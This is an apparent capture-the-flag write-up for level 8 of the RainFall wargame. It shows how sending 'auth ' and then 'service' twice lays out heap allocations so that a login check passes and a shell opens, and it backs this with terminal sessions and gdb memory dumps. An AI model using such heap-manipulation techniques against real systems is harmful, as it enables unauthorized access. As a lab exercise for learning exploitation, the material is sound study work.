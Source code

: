 # Level 8

We have a big main and 2 global variables: `auth` and `service`.
The main continuously asks for input, with the valid commands being: `auth `(notice the space), `service`, `reset` and `login`.

All we need to do is run the `auth ` command once, to initialize it with an address, and then run `service` twice, so that 32 bytes after the start of auth there are nonzero bytes (from the strdup() call on line 30) and finish it off with `login`.

```shell
level8@RainFall:~$ ./level8
(nil), (nil)
auth space
0x804a008, (nil)
service
0x804a008, 0x804a018
service
0x804a008, 0x804a028
login
$ cat /home/user/level9/.pass
[redacted]
$
```

## Why it works

`fgets` reads up to 128 characters into `s`, which is only 5 bytes long. As a result it overflow into `v5` and `v6`.
Running `auth` the first time initalizes it's global variable, we now need to find a way to make sure that `auth[8] (location of auth + 8*4 bytes since auth is a pointer on int)` doesn't equal to 0.

```C
if (memcmp(s, "service", 6) == 0)
	service = (int)strdup(v6);
```
only the first 6 characters of service are checked, anything we write after will be inserted into the heap after the `auth` malloc. Eventually arriving at `auth + 32` and enabling us to pass the check.

Demonstration:
```shell
level8@RainFall:~$ gdb -q ./level8
Reading symbols from /home/user/level8/level8...(no debugging symbols found)...done.
(gdb) b fgets
Breakpoint 1 at 0x8048440
(gdb) r
Starting program: /home/user/level8/level8
(nil), (nil)

Breakpoint 1, 0xb7e90b70 in fgets () from /lib/i386-linux-gnu/libc.so.6
(gdb) c
Continuing.
auth
0x804a008, (nil)

Breakpoint 1, 0xb7e90b70 in fgets () from /lib/i386-linux-gnu/libc.so.6
(gdb) c
Continuing.
servicBBBB
0x804a008, 0x804a018

Breakpoint 1, 0xb7e90b70 in fgets () from /lib/i386-linux-gnu/libc.so.6
(gdb) x/10x auth
0x804a008:      0x0000000a      0x00000000      0x00000000      0x00000011
0x804a018:      0x0a424242      0x00000000      0x00000000      0x00020fe1
0x804a028:      0x00000000      0x00000000
(gdb) c
Continuing.
servicAAAA
0x804a008, 0x804a028
Breakpoint 1, 0xb7e90b70 in fgets () from /lib/i386-linux-gnu/libc.so.6
(gdb) x/c auth+32
0x804a028:      65 'A'
(gdb) c
Continuing.
login
$
```

